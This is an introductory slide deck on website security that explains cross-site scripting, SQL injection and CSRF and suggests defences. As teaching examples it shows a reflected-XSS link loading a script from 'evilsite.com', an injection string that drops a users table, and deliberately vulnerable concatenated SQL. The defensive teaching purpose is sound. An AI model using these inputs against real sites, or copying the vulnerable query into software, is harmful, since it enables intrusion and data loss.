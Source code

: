 <!-- $theme: gaia -->

[Website security](https://github.com/YoonJoon/AboutServersideWebProgrammingFirstStep/blob/master/webSiteSecurity.md)
================================================================================================================================

<br>

##### Created by [이 윤 준](https://www.facebook.com/yoonjoon.lee) (yoonjoon.lee@gmail.com)

May, 2019

---

This will help us understand where threats come from, and what you can do to harden your web application against the most common attacks.

---

### What is website security?

The Internet is a dangerous place!

The purpose of website security is to prevent any sorts of attacks.

The more formal definition of website security <i>is the act/practice of protecting websites from unauthorized access, use, modification, destruction, or disruption</i>.

---

Effective website security requires design effort across the whole of the website: 

- in your web application, 
- the configuration of the web server, 
- the policies for creating and renewing passwords, 
- and the client-side code.

---

### Website security threats

<br>

This section lists just a few of the most common website threats and how they are mitigated. 

Note how threats are most successful when the web application either trusts, or is not paranoid enough about the data coming from the browser.

---

#### Cross-Site Scripting (XSS)

XSS is a term used to describe a class of attacks that allow an attacker to inject client-side scripts <i>through</i> the website into the browsers of other users.

The XSS vulnerabilities are divided into <i>reflected</i> and <i>persistent</i>, based on how the site returns the injected scripts to a browser.

---

A <b><i>reflected</i></b> XSS vulnerability occurs when user content that is passed to the server is returned <i>immediately</i> and <i>unmodified</i> for display in the browser. Any scripts in the original user content will be run when the new page is loaded.

For example, consider a site search function where the search terms are encoded as URL parameters, and these terms are displayed along with the results. An attacker can construct a search link that contains a malicious script as a parameter and email it to another user. If the target user clicks this "interesting link", the script will be executed when the search results are displayed.

---

```
http://mysite.com?q=beer
<script%20src="http://evilsite.com/tricky.js"></script>
```

---

A <i><b>persistent</b></i> XSS vulnerability occurs when the malicious script is stored on the website and then later redisplayed unmodified for other users to execute unwittingly.

For example, a discussion board that accepts comments that contain unmodified HTML could store a malicious script from an attacker. When the comments are displayed, the script is executed and can send to the attacker the information required to access the user's account. This sort of attack is extremely popular and powerful, because the attacker might not even have any direct engagement with the victims.

---

While the data from <code>POST</code> or <code>GET</code> requests is the most common source of XSS vulnerabilities, any data from the browser is potentially vulnerable, such as cookie data rendered by the browser, or user files that are uploaded and displayed.

The best defense against XSS vulnerabilities is to remove or disable any markup that can potentially contain instructions to run the code. For HTML this includes elements, such as <code>\<script></code>, <code>\<object></code>, <code>\<embed></code>, and <code>\<link></code>.

---

#### SQL injection

SQL injection vulnerabilities enable malicious users to execute arbitrary SQL code on a database, allowing data to be accessed, modified, or deleted irrespective of the user's permissions.

SQL injection types include Error-based SQL injection, SQL injection based on boolean errors, and Time-based SQL injection.

---

```python
statement = "SELECT * FROM users"
            + "WHERE name = '" + userName + "';"
```

```python
username = "SELECT * FROM users WHERE name = 'a';" +
"DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't'";
```

To avoid this sort of attack, we must ensure that any user data that is passed to an SQL query cannot change the nature of the query. One way to do this is to escape all the characters in the user input that have a special meaning in SQL.

---

#### Cross-Site Request Forgery (CSRF)

CSRF attacks allow a malicious user to execute actions using the credentials of another user without that user’s knowledge or consent.

John is a malicious user who knows that a particular site allows logged-in users to send money to a specified account using an HTTP <code>POST</code> request that includes the account name and an amount of money. John constructs a form that includes his bank details and an amount of money as hidden fields, and emails it to other site users (with the <i>Submit</i> button disguised as a link to a "get rich quick" site).

---

If a user clicks the submit button, an HTTP <code>POST</code> request will be sent to the server containing the transaction details and any client-side cookies that the browser associated with the site (adding associated site cookies to requests is normal browser behavior). The server will check the cookies, and use them to determine whether or not the user is logged in and has permission to make the transaction.

---

One way to prevent this type of attack is for the server to require that POST requests include a user-specific site-generated secret. The secret would be supplied by the server when sending the web form used to make transfers. This approach prevents John from creating his own form, because he would have to know the secret that the server is providing for the user. 

---

#### Other threats

- Clickjacking
- Denial of Service
- Directory Traversal
- File Inclusion
- Command Injection

---

### A few key messages

<br>

Whatever else we do to improve the security of our website, we should sanitize all user-originating data before it is displayed in the browser, used in SQL queries, or passed to an operating system or file system call.

---

Some concrete steps we can take are:

- Use more effective password management.
- Configure your web server to use HTTPS and HTTP Strict Transport Security (HSTS). 
- Keep track of the most popular threats (the current OWASP list is here) and address the most common vulnerabilities first.
- Use vulnerability scanning tools to perform automated security testing on your site. 
- Only store and display data that we need.


---
